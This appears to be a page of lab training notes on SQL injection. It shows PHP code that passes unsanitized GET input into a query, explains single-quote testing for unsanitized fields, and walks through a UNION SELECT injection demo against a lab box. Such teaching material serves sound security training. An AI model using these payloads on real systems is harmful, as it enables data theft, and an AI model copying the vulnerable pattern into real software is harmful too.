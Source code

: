 ```
//creds
$username = $_GET['username']; // sets our GET variable as a PHP variable
$passwd = $_GET['passwd']; // sets our GET variable as a PHP variable
```
```
//Query set up
<DOESNT CHANGE>
```
```
//DB check
if($rows != 0) {
while($rows = mysqli_fetch_array($result)) { // What will be displayed
during a GET request
echo print_r($rows);
```
**Methods to find an unsanitized field** :

- ' ( **single quote** ) will return extraneous information if the field isn’t sanitized
    ◦ We are trying to end the string and attach additional variables, or clauses, to the back-end
       SQL query
- If ' **(single qoute)** displays no error messages or generic errors than field is likely sanitized.


## DEMO: SQL Injection (SQL Demo Box).  

Perform the following Commands from the CLI:

```
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car
WHERE name = "ford";
```
The above query pulls data from two tables, combining Ford vehicles and Goodyear tires

Adding an additional nested statement, would be the following:

```
<INITIAL QUERY> UNION SELECT 1,2,name FROM user; -- This is the Nested Statement added
to the below Query
```
```
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car
WHERE name = "ford" UNION SELECT 1,2,name FROM user;
```
Perform the following using [http://10.50.XX.XX/Union.html](http://10.50.XX.XX/Union.html) (SQL Demo Box):

### NOTE

```
UNION SELECT demo will show the steps of how to go from determining an injectable
area, to grabbing the DB schema. Demo app has separate POST and GET input
functions, to show case both needing to use ' and not needing to use '
```
- Validate **Normal Functionality**
    ◦ What are the expected results?
- **Test** our _Truth Statement_
